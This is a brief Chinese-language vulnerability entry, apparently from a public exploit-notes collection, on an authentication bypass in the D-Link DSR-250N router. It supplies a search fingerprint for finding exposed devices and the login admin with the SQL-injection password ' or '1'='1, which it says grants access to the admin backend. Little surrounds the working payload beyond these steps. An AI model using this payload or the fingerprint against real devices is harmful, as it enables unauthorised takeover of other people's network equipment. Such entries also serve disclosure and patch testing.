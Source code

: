 # D-Link DSR-250N 万能密码漏洞

# D-Link DSR-250N 万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

```
D-Link DSR-250N
```

## 网络测绘

```
app="D_Link-DSR-250N"
```

## 漏洞复现

登录页面如下

![](/images/202202162222919.png)

```plain
user: admin
pass: ' or '1'='1
```

成功登录后台

![](/images/202202162223338.png)

